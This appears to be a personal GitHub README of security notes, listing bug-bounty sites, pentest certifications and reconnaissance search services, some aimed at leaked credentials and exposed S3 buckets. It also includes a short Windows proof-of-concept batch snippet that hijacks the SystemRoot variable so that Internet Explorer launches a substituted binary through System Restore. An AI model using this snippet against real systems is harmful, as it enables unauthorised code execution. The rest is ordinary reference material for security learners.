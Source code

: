 # RandomCyberStuff


## Bug Hunting sites

 - Pentesterlab: https://pentesterlab.com/
 - hackthebox: https://www.hackthebox.com/
 
 ## Bug reports
 
- Hacker One: https://Hackerone.com/hacktivity
- Bug Croud: https://bugcroud.com/crowdstream
- Pen tester Land: https://pentester.land


## Certs

### PNPT Practical Network Penetration Tester Certification
- https://certifications.tcm-sec.com/pnpt/

### eCPPT - eLearnSecurity Certified Professional Penetration Tester
- [eLearnSecurity Certified Professional Penetration Tester](https://elearnsecurity.com/product/ecpptv2-certification/)


## IE running code
IE navigating to `shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}` you can spawn System restore. If you modify the `SystemRoot` enviroment variable and copy over DLLs you run them.


POC: 
mkdir %temp%\System32
FOR /R C:\Windows\System32\ %F IN (*.dll) DO COPY "%F" %temp%\System32\ /Y >NUL
set a=C:\Windows\System32\calc.exe
copy %a% %temp%\System32\rstrui.exe /Y > NUL
set SystemRoot=%temp%
start iexplore shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}

## Search resources 

1. DeHashed—View leaked credentials.
2. SecurityTrails—Extensive DNS data.
3. DorkSearch—Really fast Google dorking.
4. ExploitDB—Archive of various exploits.
5. ZoomEye—Gather information about targets.
6. Pulsedive—Search for threat intelligence.
7. GrayHatWarfare—Search public S3 buckets.
8. PolySwarm—Scan files and URLs for threats.
9. Fofa—Search for various threat intelligence.
10. LeakIX—Search publicly indexed information.
11. DNSDumpster—Search for DNS records quickly.
12. FullHunt—Search and discovery attack surfaces.
13. AlienVault—Extensive threat intelligence feed.
14. ONYPHE—Collects cyber-threat intelligence data.
15. Grep App—Search across a half million git repos.
16. URL Scan—Free service to scan and analyse websites.
17. Vulners—Search vulnerabilities in a large database.
18. WayBackMachine—View content from deleted websites.
19. Shodan—Search for devices connected to the internet.
20. Netlas—Search and monitor internet connected assets.
21. CRT sh—Search for certs that have been logged by CT.
22. Wigle—Database of wireless networks, with statistics.
23. PublicWWW—Marketing and affiliate marketing research.
24. Binary Edge—Scans the internet for threat intelligence.
25. GreyNoise—Search for devices connected to the internet.
26. Hunter—Search for email addresses belonging to a website.
27. Censys—Assessing attack surface for internet connected devices.
28. IntelligenceX—Search Tor, I2P, data leaks, domains, and emails.
29. Packet Storm Security—Browse latest vulnerabilities and exploits.
30. SearchCode—Search 75 billion lines of code from 40 million projects.

